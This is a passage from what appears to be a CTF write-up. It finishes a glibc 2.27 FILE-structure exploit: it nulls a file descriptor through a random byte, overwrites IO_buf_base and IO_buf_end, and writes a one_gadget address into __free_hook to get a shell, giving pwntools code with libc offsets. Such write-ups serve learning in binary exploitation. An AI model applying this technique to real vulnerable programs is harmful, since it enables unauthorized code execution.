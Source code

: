 ```py
        #add a buffer chunk of 0x1000 bytes and call edit on it to fill it with random bytes.
        add(2,0x1000)
        edit(2,0,3991)
```

The next edit should take input from stdin if the file descriptor has been nulled out by that random byte.

Now we can directly edit our file structure with our input.

Note that here we cant go for **vtable** overwrite as there would be checks in **glibc 2.27**.
{: .notice}

Hence we decided to achieve arbitrary write by using **IO\_buf\_base** and **IO\_buf\_end**. If we overwrite **IO\_buf\_base** with malloc/free hook and **IO\_buf\_end** with somewhere after **free/malloc hook** , we can write one gadget to either of these pointers.

Initially we overwrote **\__malloc\_hook** to get shell but the constraints of **one\_gadget** wouldn't satisfy hence we tried overwriting **free\_hook** with system and overwrite file pointer **magic number** with **/bin/sh** to get shell in internals of **fclose** but the problem was that , on server the magic number was not overwritten with **/bin/sh** rather it executed **system(magic\_num)** which didnt give us shell. 

Finally overwriting **free\_hook** with a suitable gadget only gave shell.

Here's the rest of the script

```py
        #Overwriting buf_base and buf_end with free_hook and region nearby
        buf_base = libc_base + 0x3ebc30
        buf_end = libc_base + 0x3ebd40
        gdb.attach(io)
        #Finally calling edit to take input at file structure from stdin
        edit(1,-4616,16)
        payload = p64(buf_base) + p64(buf_end)
        io.sendline(payload)
        one_gadget = libc_base + 0x10a38c
        #Now we write to free_hook
        edit(1,-4688,8)
        payload = p64(one_gadget)+"a"*8 + p64(one_gadget)
        io.sendline(payload)
        gdb.attach(io)
        fclose()
    else:
        log.info('Restart Exploit')
    io.interactive()

```

## CONCLUSION

I really liked the idea of writing just one null byte using **/dev/urandom** and then brute forcing to get shell.

Enjoyed solving the challenge, credits to [sherl0ck](https://twitter.com/sherl0ck__) for the idea.

Here's the [script](https://gist.github.com/PwnVerse/79485fce497bb30e7eaf4e9b01a6a20c).
